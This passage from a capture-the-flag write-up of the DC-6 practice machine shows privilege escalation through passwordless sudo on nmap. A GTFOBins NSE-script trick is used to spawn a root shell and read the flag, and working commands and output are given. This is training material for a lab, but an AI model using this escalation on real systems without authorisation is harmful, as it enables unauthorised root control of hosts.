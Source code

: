 ```
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
dc-6
$ 

```
Let's find out, if jens has sudo permissions as well.
```bash
$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
$ 

```
Well, jens has sudo permissions for the nmap binary... 
Let's check [GTFObins for sudo on nmap](https://gtfobins.github.io/gtfobins/nmap/#sudo).
```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

## Privilege escalation
Now let's exploit this vulnerability.
```
$ TF=$(mktemp)
$ echo 'os.execute("/bin/sh")' > $TF
$ sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2023-03-28 05:43 AEST
NSE: Warning: Loading '/tmp/tmp.of41ugnlMk' -- the recommended file extension is '.nse'.

```
It looks like we gained a shell. Let's check if this shell is running as root.
```bash
whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
dc-6
cd /root
ls
theflag.txt
whoami;id;hostname;ifconfig;cat theflag.txt
root
uid=0(root) gid=0(root) groups=0(root)
dc-6
/bin/sh: 4: ifconfig: not found


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

```